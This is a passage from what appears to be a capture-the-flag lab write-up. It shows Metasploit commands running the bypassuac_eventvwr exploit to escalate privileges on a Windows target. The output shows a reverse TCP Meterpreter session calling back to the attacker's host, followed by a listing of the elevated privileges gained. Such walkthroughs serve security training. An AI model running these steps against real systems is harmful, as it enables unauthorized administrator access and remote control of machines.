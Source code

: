 11. Background the meterpreter session and use the new exploit for priv esc.

```
msf5 exploit(windows/local/bypassuac_eventvwr) > set SESSION 2
SESSION => 2
msf5 exploit(windows/local/bypassuac_eventvwr) > set LHOST 10.9.74.9
LHOST => 10.9.74.9
msf5 exploit(windows/local/bypassuac_eventvwr) > exploit

[*] Started reverse TCP handler on 10.9.74.9:4444 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\SysWOW64\eventvwr.exe
[+] eventvwr.exe executed successfully, waiting 10 seconds for the payload to execute.
[*] Sending stage (176195 bytes) to 10.10.201.2
[*] Meterpreter session 3 opened (10.9.74.9:4444 -> 10.10.201.2:49726) at 2020-07-22 20:03:20 -0400
[*] Cleaning up registry keys ...

```

12. Very extended privileges.

```
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

``` 
